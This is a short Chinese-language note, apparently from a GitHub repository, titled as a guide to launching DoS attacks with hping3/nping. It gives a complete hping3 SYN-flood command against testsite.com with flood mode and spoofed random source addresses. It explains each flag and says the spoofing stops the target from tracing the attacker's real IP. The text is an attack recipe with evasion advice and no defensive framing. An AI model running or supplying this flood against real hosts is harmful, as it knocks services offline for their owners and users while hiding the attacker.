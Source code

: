 # 使用hping3/nping施行DoS攻擊
```
# hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com
```
```
-c：發送數據包的個數
-d：每個數據包的大小
-S：發送SYN數據包
-w：TCP window大小
-p：目標埠，你可以指定任意埠
–flood：儘可能快的發送數據包
–rand-source：使用隨機的IP位址，目標機器看到一堆ip，不能定位你的實際IP；也可以使用-a或–spoof隱藏主機名
```
```
https://kknews.cc/zh-tw/news/3n9lrya.html
```
